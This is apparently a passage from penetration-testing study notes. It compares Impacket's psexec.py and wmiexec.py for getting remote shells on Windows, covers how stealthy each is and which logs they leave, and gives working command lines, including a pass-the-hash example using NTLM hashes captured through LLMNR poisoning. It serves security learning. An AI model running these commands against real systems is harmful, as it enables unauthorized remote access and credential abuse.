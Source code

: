 
##### Key Differences Between `psexec.py` and `wmiexec.py`
- **Intrusiveness**: `psexec.py` installs a service on the target system (which may trigger alerts), while `wmiexec.py` does not.
- **Command Interaction**: `psexec.py` provides a continuous interactive shell, whereas `wmiexec.py` executes individual commands, returning output line by line.
- **Stealth**: `wmiexec.py` is generally considered more stealthy because it doesn’t rely on installing services on the target.

>[!NOTE]
>Even though `wmiexec.py` is considered more stealthy it does generate the *event ID* of `4688: A new process has been created` in event logs and might be noticed by defenders

---

##### Summary of Commands

1. **`psexec.py`**:
   - Best for: Getting a persistent interactive shell.
   - Command: 
     ```bash
     psexec.py <domain>/<username>:<password>@<target-ip>
     ```
   - Example: 
     ```bash
     psexec.py forend:Klmcargo2@192.168.1.10
     ```

2. **`wmiexec.py`**:
   - Best for: Executing commands without leaving as many traces.
   - Command: 
     ```bash
     wmiexec.py <domain>/<username>:<password>@<target-ip>
     ```
   - Example: 
     ```bash
     wmiexec.py forend:Klmcargo2@192.168.1.10
     ```
     
---

##### Using `psexec.py` with a Captured Hash

`psexec.py` allows you to perform a pass-the-hash attack by providing the captured NTLM hash instead of a password.

>[!NOTE]
>We can capture hashes via an llmnr poisoning attack with `responder` | we covered this earlier in these notes | the user the hash is for has to be a *local admin* on the target machine for this to work

###### Example Command:
```bash
psexec.py <domain>/<username>@<target-ip> -hashes <LMHASH>:<NTLMHASH>
```
- `<domain>`: The domain name or workgroup of the target system (optional if not part of a domain).
- `<username>`: The username of the account whose hash you've captured.
- `<target-ip>`: The IP address of the target Windows machine.
- `<LMHASH>`: The LAN Manager (LM) hash, which can be left as `aad3b435b51404eeaad3b435b51404ee` (the default if not present).
- `<NTLMHASH>`: The NTLM hash you captured using Responder or other tools.
